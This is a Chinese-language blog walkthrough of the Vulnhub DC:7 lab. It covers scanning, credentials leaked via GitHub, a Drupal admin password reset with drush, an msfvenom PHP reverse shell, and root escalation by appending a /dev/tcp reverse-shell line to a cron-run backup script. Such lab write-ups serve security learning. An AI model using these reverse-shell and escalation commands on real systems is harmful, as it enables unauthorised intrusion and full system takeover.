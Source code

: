 ```yaml
---
title: "DC:7-Vulnhub Walkthrough"
categories: [ "安全技术" ]
tags: [ "vulnhub","靶机","walkthrough" ]
draft: false
slug: "450"
date: "2020-01-23 17:13:00"
---
```


[靶机地址][1]

## 工具及漏洞信息

- netdiscover
- nmap
- dirb
- dirsearch
- gobuster
- droopescan
- 计划任务提权

** 部分工具的用法和详细说明请参考此系列的第一篇文章：[bossplayersCTF:1-Vulnhub Walkthrough][2] **

## 0x00 信息收集

### 扫描靶机信息

`netdiscover`的`-r`参数扫描`192.168.1.0/16`结果如下：

![][3]

`nmap`扫描主机及端口信息：

```
nmap -sS -A -n -T4 -p- 192.168.1.8
```

![][4]

`robots.txt`没有什么可利用的，主页最下面写着`Powered by Drupal`

### 扫描路径

`dirb`扫描路径：

```
dirb http://192.168.1.8
```

![][5]

`dirsearch`

```
python3 dirsearch.py -t 50 -e .php,.txt,.zip,.html -x 400,403,404,500,503,514,564 -u http://192.168.1.8
```

![][6]

`gobuster`

```
gobuster dir -u http://192.168.1.8 -s 200,301,302 -t 50 -q -w /usr/share/seclists/Discovery/Web-Content/big.txt
```

![][7]

## 0x01 漏洞扫描

一圈目录下来，都没什么特别的,`user/login`界面也没有弱密码：

![][8]

而且后台限制了 5 次登录失败会被暂时锁定，只能从网站框架和模板入手了

`Github`上针对`Drupal`的漏扫工具有[`droopescan`][9]和[`drupwn`][10]

但是后者不好用就不做介绍了

```
git clone https://github.com/droope/droopescan
cd droopescan
pip install -r requirements.txt
./droopescan scan drupal -u http://192.168.1.9/ -t 32
```

![][11]

而漏洞库不包含扫描出来的版本：

![][12]

`cms`本身漏洞无法利用，那我们就解决作者本身吧::quyin:OK::

## 0x01 获得普通账号

主页的底部除了`Powered by Drupal`

还有作者的名字`@DC7USER`，搜了下发现是`twitter`账号：

![][13]

并且在首页放着一个大大的`github`[链接][14]，作者只有一个仓库[`staffdb`][15]

`config.php`里明晃晃地写着账号密码和数据库名字：

![][16]

```
$servername = "localhost";
$username = "dc7user";
$password = "MdR3xOgB7#dW";
$dbname = "Staff";
```

于是用`ssh`登录进去：`ssh dc7user@192.168.1.9`，获得了`dc7user`的`shell`:

![][17]

## 0x02 获取 shell

获取到`shell`第一步当然是查看当前目录有什么文件：

![][18]

`mbox`很显眼，查看一下：

![][19]

邮件内容应该是备份的日志，调用的脚本是`/opt/scripts/backups.sh`

貌似还是`root`权限执行的。如果当前用户有脚本的写入权限，那么应该就可以提权了。

查了一下`www-data`和`root`用户才能修改，内容是用来管理`Drupal`站点的`shell`

![][20]

其中有一句话引起了我的注意：

```
drush sql-dump --result-file=/home/dc7user/backups/website.sql
```

查了一下，这个`drush`命令是可以用来修改密码的：

```
drush user-password USERNAME --password="SOMEPASSWORD"
```

于是尝试修改`admin`的密码，需要到某些指定目录例如`/var/www/html`才能修改：

![][21]

获得管理员账户之后我们登录网站来反弹`shell`

![][22]

出于安全考虑，`PHP Filter`已经从`Drupal`核心中移除

后续作为一个`module`存在，可以通过手动[下载][23]安装：

![][24]

打开网站的模块安装界面`/admin/modules`:

![][25]

![][26]

搜索模块`php`，选中我们刚才安装的`PHP`，点击`install`启动模块：

![][27]

模块安装好后就可以开始利用漏洞了，在`Content`中新建一个`Basic page`，

然后在`Title`输入页面的名称`webshell`，在`Body`中放入反弹`shell`的`PHP`代码

我这里使用`msfvenom`生成的`php shell`:

```
msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.1.2 LPORT=3333 -f raw
```

`Text format`的位置选择`PHP code`:

![][28]

弄完之后，先别操作，在`kali`上监听端口

```
msfconsole
handler -H 192.168.1.2 -P 3333 -p php/meterpreter/reverse_tcp
```

![][29]

最后点击`Preview`按钮，第一次可能不会成功，退出`Preview`再来一次即可：

![][30]

获取到的`shell`为`www-root`用户的:

![][31]

## 0x03 backups.sh 提权 root

之前邮件里的备份计划任务使用的脚本`/opt/scripts/backups.sh`只有`root`和`www-data`用户可以修改。

所以接下来就是将反弹`shell`的代码附加到`backups.sh`脚本中

（因为计划任务是`root`权限执行的，反弹回来的`shell`也会是`root`用户）

然后在`kali`中监听相应端口，等待计划任务的执行:

```
使用shell进入命令行
使用/bin/bash:python -c 'import pty;pty.spawn("/bin/bash")'
cd /opt/scripts/
在另外的终端监听指定端口:nc -lvp 3456
将反弹shell代码写进backups.sh:echo "0&lt;&amp;198-;exec 198&lt;>/dev/tcp/192.168.1.2/3456;sh &lt;&amp;198 >&amp;198 2>&amp;198" >> backups.sh
```

![][32]

等待靶机执行定时任务就可以获得`root`的`shell`:

![][33]

成功获得`flag`:

![][34]

本文完。

参考文章：

- [VULNHUB: DC:7 Vulnhub Walkthrough][35]
- [DC:7 VULNHUB WALKTHROUGH][36]
- [VulnHub 靶机系列实战教程][37]

[1]: https://www.vulnhub.com/entry/dc-7,356/
[2]: https://soapffz.com/427.html
[3]: https://img.soapffz.com/archives_img/2020/01/23/archives_20200123_171314.png
[4]: https://img.soapffz.com/archives_img/2020/01/23/archives_20200123_173123.png
[5]: https://img.soapffz.com/archives_img/2020/01/23/archives_20200123_181812.png
[6]: https://img.soapffz.com/archives_img/2020/01/23/archives_20200123_181618.png
[7]: https://img.soapffz.com/archives_img/2020/01/23/archives_20200123_181727.png
[8]: https://img.soapffz.com/archives_img/2020/01/23/archives_20200209_143103.png
[9]: https://github.com/droope/droopescan
[10]: https://github.com/immunIT/drupwn/blob/master/drupwn
[11]: https://img.soapffz.com/archives_img/2020/01/23/archives_20200209_144627.png
[12]: https://img.soapffz.com/archives_img/2020/01/23/archives_20200209_145444.png
[13]: https://img.soapffz.com/archives_img/2020/01/23/archives_20200209_145817.png
[14]: https://github.com/Dc7User/
[15]: https://github.com/Dc7User/staffdb
[16]: https://img.soapffz.com/archives_img/2020/01/23/archives_20200209_150034.png
[17]: https://img.soapffz.com/archives_img/2020/01/23/archives_20200209_150417.png
[18]: https://img.soapffz.com/archives_img/2020/01/23/archives_20200209_150811.png
[19]: https://img.soapffz.com/archives_img/2020/01/23/archives_20200209_151055.png
[20]: https://img.soapffz.com/archives_img/2020/01/23/archives_20200209_151404.png
[21]: https://img.soapffz.com/archives_img/2020/01/23/archives_20200209_163352.png
[22]: https://img.soapffz.com/archives_img/2020/01/23/archives_20200209_163702.png
[23]: https://www.drupal.org/project/php
[24]: https://img.soapffz.com/archives_img/2020/01/23/archives_20200209_164507.png
[25]: https://img.soapffz.com/archives_img/2020/01/23/archives_20200209_164725.png
[26]: https://img.soapffz.com/archives_img/2020/01/23/archives_20200209_164819.png
[27]: https://img.soapffz.com/archives_img/2020/01/23/archives_20200209_165521.png
[28]: https://img.soapffz.com/archives_img/2020/01/23/archives_20200209_170225.png
[29]: https://img.soapffz.com/archives_img/2020/01/23/archives_20200209_173222.png
[30]: https://img.soapffz.com/archives_img/2020/01/23/archives_20200209_175724.png
[31]: https://img.soapffz.com/archives_img/2020/01/23/archives_20200209_180129.png
[32]: https://img.soapffz.com/archives_img/2020/01/23/archives_20200209_185217.png
[33]: https://img.soapffz.com/archives_img/2020/01/23/archives_20200209_185352.png
[34]: https://img.soapffz.com/archives_img/2020/01/23/archives_20200209_185427.png
[35]: https://diaryof0x41.wordpress.com/2019/09/03/vulnhub-dc-7-walkthrough/
[36]: https://ethicalhackingguru.com/dc-7-vulnhub-walkthrough/
[37]: https://mp.weixin.qq.com/s/skCNWPiEPgJcHXSmsif5qQ